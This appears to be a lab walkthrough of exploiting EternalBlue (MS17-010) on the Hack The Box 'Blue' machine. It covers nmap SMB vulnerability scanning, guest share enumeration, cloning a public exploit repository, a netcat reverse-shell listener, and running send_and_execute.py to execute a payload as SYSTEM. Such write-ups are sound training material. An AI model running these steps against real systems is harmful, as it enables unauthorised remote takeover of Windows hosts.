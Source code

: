 # EternalBlue

## EternalBlue

MS-17-010, also known as ETERNALBLUE, is an unauthenticated remote code execution vulnerability in Windows SMB that was made famous by the Shadow Brokers' publication and use in May 2017 WannaCry worm.

Metasploit's MS17-010 exploits are far more stable than their Python script counterparts. If you're doing this in the real world, Metasploit is a great tool to use.

## Enumeration

We can use Nmap **vuln nse scripts** to find vulnerable versions of SMB:

```
❯ sudo nmap -p 445 -script vuln -oA scans/nmap-smbvulns 10.10.10.40
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 12:10 EDT
Nmap scan report for 10.10.10.40
Host is up (0.080s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 27.02 seconds
```

## Exploitation

### Manually - NO Metasploit

**SMB Authentication:**

**smbclient** doesn't error out:

```
❯ smbclient -N -L //10.10.10.40/Share

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk
	Users           Disk
```

**smbmap** needs a **user** or a **password** string to authenticate for some reason:

```
❯ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445	Name: 10.10.10.40
❯ smbmap -u 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
❯ smbmap -p 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
```

#### Exploit

Worawit has the greatest MS17-010 Python scripts I've seen. These are effective, but they are a little difficult to use. That project was forked by helviojunior, who included a single send and execute.py file, which is quite useful. It's just an updated version of the original zzz exploit.py script, with the addition of the ability to upload a file and run it as system.

```
git clone https://github.com/helviojunior/MS17-010
```

**Credentials Update**

Just like with `smbmap`, when we try to run this with username as an empty string, it won’t authenticate. However, if we just add any string into the username, it will then work.

Modify the exploit, add any string to the username variable:

![send\_and\_execute.py USERNAME variable](../.gitbook/assets/image.png)

### Exploit manually&#x20;

Set a listener with **nc**:

```
sudo rlwrap nc -lvnp 443
```

Then execute the exploit with:

```
~/htb/blue/MS17-010 master* 26s
impacket-venv ❯ python send_and_execute.py 10.10.10.40 rev.exe
```





